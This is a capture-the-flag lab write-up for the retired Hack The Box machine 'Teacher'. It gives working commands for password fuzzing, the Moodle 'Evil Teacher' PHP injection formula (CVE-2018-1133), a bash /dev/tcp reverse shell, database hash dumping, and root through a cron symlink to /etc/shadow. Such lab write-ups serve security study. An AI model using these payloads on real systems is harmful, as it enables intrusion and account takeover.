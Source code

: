 # Teacher

This is the write-up for the box Teacher that got retired at the 20th April 2019.
My IP address was 10.10.14.2 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.153    teacher.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/teacher.nmap 10.10.10.153
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blackhat highschool
```

## Checking HTTP (Port 80)

The web page is a website of a fictional school _"Blackhat Highschool"_ with some links that don't forward anywhere and stock text.
In the HTML source code of _/gallery.html_ is one suspicious line:
```html
<li><a href="#"><img src="images/5.png" onerror="console.log('That\'s an F');" alt=""></a></li>
```

When clicking on _/images/5.png_ it shows an error:
```markdown
The image "http://10.10.10.153/images/5.png" cannot be displayed because it contains errors.
```

Downloading it with `wget` and looking what kind of file type this is:
```markdown
file 5.png
5.png: ASCII text
```

It is a text file that can be read:
```markdown
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni
```

Lets search for hidden directories with **Gobuster** to see where these credentials could be used:
```markdown
gobuster -u http://10.10.10.153 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

If finds the directory _/moodle_ that forwards to a [Moodle platform](https://moodle.org/) which is an Open-Source _Learning Management System (LMS)_ written in PHP.

All links forward to the login page _/moodle/login/index.php_ as our access is restricted.
By sending this to a proxy tool like **Burpsuite** we can see the request parameters and fuzz for the last character of the password with **Wfuzz**:
```markdown
wfuzz -u http://10.10.10.153/moodle/login/index.php -d 'anchor=&username=Giovanni&password=Th4C00lTheachaFUZZ' -w /usr/share/seclists/Fuzzing/special-chars.txt
```

The _number sign (#)_ responds with a different character length, so this is probably the last character of the password.
Login with the username _Giovanni_ and the password _Th4C00lTheacha#_ works.

### Exploiting Moodle

To exploit **Moodle**, the installed version number has to be found.
This can be done by clicking on _"Moodle Docs for this page"_ in the footer of the page, which forwards to the [Moodle documentation for version 3.4](https://docs.moodle.org/34/en/Participants) that was [released in November 2017](https://docs.moodle.org/dev/Moodle_3.4_release_notes).

After searching for vulnerabilities for this version, a blog post from the [RIPS TECH Blog](https://blog.ripstech.com/2018/moodle-remote-code-execution/) explains a Remote Code Execution with the name **Evil Teacher** or **CVE-2018-1133**.

Lets follow the steps of RIPS TECH explanation to exploit this vulnerability.

Creating a quiz:
```markdown
Site home --> Algebra --> Gear symbol on the top right --> Turn editing on
```
```markdown
Add an activity or resource --> Quiz --> Add
```

Giving it a name, changing nothing else in the configuration and saving it by clicking on _"Save and display"_.

![Creating a quiz](https://kyuu-ji.github.io/htb-write-up/teacher/teacher_web-1.png)

Creating question for the quiz:
```markdown
Edit quiz --> Add --> a new question --> Calculated
```

![Creating question](https://kyuu-ji.github.io/htb-write-up/teacher/teacher_web-2.png)

```markdown
Question name: Test question name

Question text: Is this a question?

Answer 1 formula = /\*{a\*/\`$_REQUEST[cmd]\`;//{x}}
```

![Payload in answer formula](https://kyuu-ji.github.io/htb-write-up/teacher/teacher_web-3.png)

```markdown
Save changes --> Do no synchronise --> Next page
```

The current page can be sent to **Burpsuite** to test code execution:
```markdown
GET /moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7&cmd=ping+-c+1+10.10.14.2
```

The test command will ping my IP once, so lets listen on incoming ICMP traffic with `tcpdump`:
```markdown
tcpdump -i tun0 -n icmp
```

After sending the request, the ping packet reaches my client and proofs command execution.
Lets execute a reverse shell command:
```markdown
GET /moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7&cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.2/9001+0>%261'

# Command URL-decoded:
bash -c 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1'
```

After sending the request, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation

In the directory _/var/www/html/moodle_ are the configuration files. In _config.php_ are credentials to the **MySQL database**:
```markdown
(...)
dbname = 'moodle';
dbuser = 'root';
dbpass = 'Welkom1!';
(...)
```

Connecting to the database:
```markdown
mysql -u root -D moodle -p
```
```markdown
MariaDB [moodle]> show databases;

MariaDB [moodle]> select id, username, password from mdl_user;
```
```markdown
+------+-------------+--------------------------------------------------------------+
| id   | username    | password                                                     |
+------+-------------+--------------------------------------------------------------+
|    1 | guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |
|    2 | admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |
|    3 | giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |
| 1337 | Giovannibak | 7a860966115182402ed06375cf0a22af                             |
+------+-------------+--------------------------------------------------------------+
```

There are password hashes found and the password hash of _Giovannibak_ is different than the others as it is 32 characters long and thus probably a **MD5 hash**.

When searching for the MD5 hash on **Hashes.org** it is found and decodes to:
> expelled

Switching user to _giovanni_:
```markdown
su - giovanni
```

The password works and we get logged in as _giovanni_.

### Privilege Escalation to root

In the home directory _/home/giovanni_ is a folder called _/work_ and in there are files that according to their date, changed something today.
This could be a hint that an automated **cronjob** is doing this.

Running processes of all users can be enumerated with [pspy](https://github.com/DominicBreuker/pspy):
```markdown
wget 10.10.14.2/pspy32

./pspy32
```

After waiting for a while **pspy** detects the commands that are running:
```markdown
/bin/sh -c /usr/bin/backup.sh
```

Contents of _/usr/bin/backup.sh_:
```markdown
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```

The script compresses some files and after decompressing them, changes the permissions so everyone can read, write and execute them.
By creating a **symlink** from _/home/giovanni/work/tmp_ to _/etc/shadow_, the permissions of the **Shadow file** can be changed:
```markdown
rm -rf ./tmp

ln -s /etc/shadow /home/giovanni/work/tmp
```

Changing password of root to password of _giovanni_:
```markdown
echo 'root:$6$RiDoH4VN$WamVNCkuoZyN1uM6hmyKKt6GwGWAamiQM3SYCrr5lmUYnmV7vpBNkYZCHqjh7UDtsdF8NbGjM7dJPIsxeFkrx0:17709:0:99999:7:::' >> /etc/shadow
```

With the password _"expelled"_ it is now possible to change users to root!
```markdown
su - root
```
